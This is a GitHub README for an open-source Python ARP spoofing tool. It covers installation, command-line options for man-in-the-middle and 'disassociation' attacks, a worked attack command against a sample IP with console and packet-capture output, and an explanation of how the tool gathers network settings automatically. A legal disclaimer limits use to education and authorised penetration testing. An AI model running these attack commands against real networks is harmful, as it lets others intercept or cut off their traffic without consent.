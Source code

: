 # Python 3 ARP Spoofing Tool

[![Python Version](https://img.shields.io/badge/python-3.x-blue?style=for-the-badge&logo=python)](https://github.com/EONRaider/Packet-Sniffer/)
[![Open Source? Yes!](https://img.shields.io/badge/Open%20Source%3F-Yes!-green?style=for-the-badge&logo=appveyor)](https://github.com/EONRaider/Packet-Sniffer/)
[![License](https://img.shields.io/github/license/EONRaider/Packet-Sniffer?style=for-the-badge)](https://github.com/EONRaider/Packet-Sniffer/blob/master/LICENSE)

[![Reddit](https://img.shields.io/reddit/user-karma/combined/eonraider?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![GitHub](https://img.shields.io/github/followers/eonraider?label=GitHub&logo=github&style=flat-square)](https://github.com/EONRaider)
[![Twitter](https://img.shields.io/twitter/follow/eon_raider?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

A pure-Python ARP Cache Poisoning (a.k.a. "ARP Spoofing") tool that leverages
a low-level assembly of Ethernet II frames and ARP packets.

This application maintains no dependencies on third-party modules and can be 
run by any Python 3.x interpreter.

## Installation

Simply clone this repository with `git clone` and execute the `arpspoof.py` file 
as described in the following **Usage** section.

```
user@host:~/DIR$ git clone https://github.com/EONRaider/Arp-Spoofer.git
```

## Usage
```
arpspoof.py [-h] [-i INTERFACE] [--attackermac MAC] [--gatemac MAC]
            [--targetmac MAC] [--gateip IP] [--interval TIME] [-d] [-f]
            TARGET_IP

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  TARGET_IP                    IP address currently assigned to the target.

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface on the attacker machine to send packets
                        from.
  --attackermac MAC     MAC address of the NIC from which the attacker machine
                        will send the spoofed ARP packets.
  --gatemac MAC         MAC address of the NIC associated to the gateway.
  --targetmac MAC       MAC address of the NIC associated to the target.
  --gateip IP           IP address currently assigned to the gateway.
  --interval TIME       Time in between each transmission of spoofed ARP
                        packets (defaults to 0.5 seconds).
  --disassociate        Execute a disassociation attack in which a randomized
                        MAC address is set for the attacker machine,
                        effectively making the target host send packets to a
                        non-existent gateway.
  -f, --ipforward       Temporarily enable forwarding of IPv4 packets on the
                        attacker system until the next reboot. Enable to
                        intercept information between the target host and the
                        gateway, performing a man-in-the-middle attack.
                        Requires administrator privileges.
```


## Running the Application

#### "Too long, didn't read"

- Execute this command and let the tool take care of the remaining
settings to perform an ARP Cache Poisoning in conjunction with a MITM
attack:

```
user@host:~$ python3 arpspoof.py TARGET_IP -f
```

#### Detailed explanation

- Let's perform an attack against a target with IP address `10.0.1.6`.
*Notice how the remaining settings are automatically obtained,
including a setup for forwarding of IPv4 packets to enable a MITM
attack (set by the -f switch).*

```
user@host:~$ sudo python3 arpspoof.py 10.0.1.6 -f
  
[>>>] ARP Spoofing configuration:
    [+] IPv4 Forwarding .....................True
    [+] Interface       .....................eth0
    [+] Attacker MAC    ........08:92:27:dc:3a:71
    [+] Gateway IP      .................10.0.1.1
    [+] Gateway MAC     ........52:93:d0:92:c5:06
    [+] Target IP       .................10.0.1.6
    [+] Target MAC      ........91:8b:28:93:af:07

[!] ARP packets ready. Execute the attack with these settings? (Y/N) y

[+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
```

- Traffic displayed by 
[Network Packet Sniffer](https://github.com/EONRaider/Packet-Sniffer)
as the attack initiated above takes place. *Check that packets #5 and #6
map the gateway and target IP addresses to the attacker MAC address:*

```
[>] Packet #1 at 14:10:12:
    [+] MAC ......08:92:27:dc:3a:71 -> ff:ff:ff:ff:ff:ff
    [+] ARP Who has      10.0.1.6 ? -> Tell 10.0.1.5
[>] Packet #2 at 14:10:12:
    [+] MAC ......91:8b:28:93:af:07 -> 08:92:27:dc:3a:71
    [+] ARP ...............10.0.1.6 -> Is at 91:8b:28:93:af:07
[>] Packet #3 at 14:10:12:
    [+] MAC ......08:92:27:dc:3a:71 -> 91:8b:28:93:af:07
    [+] IPv4 ..............10.0.1.5 -> 10.0.1.6        | PROTO: UDP TTL: 64
    [+] UDP ..................52949 -> 54663
[>] Packet #4 at 14:10:12:
    [+] MAC ......91:8b:28:93:af:07 -> 08:92:27:dc:3a:71
    [+] IPv4 ..............10.0.1.6 -> 10.0.1.5        | PROTO: ICMP TTL: 64
    [+] ICMP ..............10.0.1.6 -> 10.0.1.5        | Type: OTHER
[>] Packet #5 at 14:10:18:
    [+] MAC ......08:92:27:dc:3a:71 -> 52:54:00:12:35:00
    [+] ARP ...............10.0.1.6 -> Is at 08:92:27:dc:3a:71
[>] Packet #6 at 14:10:18:
    [+] MAC ......08:92:27:dc:3a:71 -> 91:8b:28:93:af:07
    [+] ARP ...............10.0.1.1 -> Is at 08:92:27:dc:3a:71
```

*And that's it! The attack will persist until otherwise aborted.*

### But how is this possible?

The simplest command for this tool consists of
`sudo python3 arpspoof.py TARGET_IP`

Then where do the remaining settings such as Target MAC, Gateway IP and
Attacker MAC come from? How is IPv4 forwarding enabled?

A brief explanation can be found in the docstring of the `ARPSetupProxy`
class in the
[packets.py](https://github.com/EONRaider/Arp-Spoofer/blob/master/packets.py)
file:

> Performs a best-effort attempt to query the system and network for
information necessary to build the ARP attack packets. **It allows the
user to initiate an attack by simply supplying the target's IP
address**. *All other required settings are looked up from the
attacker system's ARP and routing tables and by probing ephemeral
ports on the target host.*

This tool prioritizes the automated gathering of all information
required to initiate the attack, releasing the Penetration Tester from
going through all the manual processes required by similar tools.

With that in mind we have that **the following operations are the ones 
executed by the application to obtain each setting:**
- `IPv4 Forwarding`: Execute a subprocess call to set
`net.ipv4.ip_forward=1` in `sysctl`
- `Interface`: Parse the attacker's routing table and look for
interfaces mapping valid routes to the gateway.
- `Attacker MAC`: Bind to interface and query name from `socket`
- `Gateway IP`: Parse the attacker's routing table and find the route
with `0x0003` flag set.
- `Gateway MAC`: Parse the attacker's ARP table looking for devices
with `Gateway IP`.
- `Target MAC`: Send a UDP datagram with an empty byte string to a
random ephemeral port on the target system (effectively making the
attacker system execute an ARP request to the broadcast address)
and then reading the newly written information from the ARP table.

## Legal Disclaimer

The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end-user's responsibility to obey all applicable local, state
and federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity and/or availability of
systems and their associated resources by leveraging the exploitation of known
or unknown vulnerabilities present in said systems, including, but not limited
to, the implementation of security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
